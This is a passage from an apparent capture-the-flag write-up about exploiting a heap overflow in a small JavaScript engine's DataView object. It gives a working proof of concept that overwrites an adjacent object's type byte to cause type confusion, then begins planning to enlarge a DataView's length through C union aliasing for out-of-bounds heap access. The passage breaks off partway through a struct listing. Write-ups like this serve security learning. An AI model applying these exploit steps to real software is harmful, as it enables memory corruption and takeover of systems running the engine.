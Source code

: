 
### Leveraging the bug

#### Type confusion

Here my teammate had an I idea to do type confusion on js_Object:
```c
struct js_Object
{
	enum js_Class type;
	int extensible;
	js_Property *properties;
	...
}
```
Since type is 1 byte and we have 9 byte overflow it seems too perfect(8 bytes for malloc metadata + 1 for type) not to be true. And another teammate came up with poc of type confusion:
```js
b = DataView(0x68);
a = DataView(0x48);
b = DataView(0x48);
c = DataView(0x48);


print(c)
b.setUint8(0x48+8, 8); // change type of c to something
print(c)
```
Which prints:
```
[object DataView]
[object String]
```
Nice!


#### Overwriting DataView's length


js_Object uses C unions so different types can use same memory. Because C unions basically alias the same memory my idea was to somehow change DataView length using a field which is aliased to the same memory and make it bigger so we would have heap oob r/w.

Here's what js_Object looks like:
```c
struct js_Object
{
	enum js_Class type;
	int extensible;
	js_Property *properties;
	int count; 
	js_Object *prototype;
	union {
		int boolean;
		double number;
		struct {
			const char *string;
			int length;
		} s;
		struct {
			int length;
		} a;
		struct {
			js_Function *function;
			js_Environment *scope;
		} f;
		struct {
```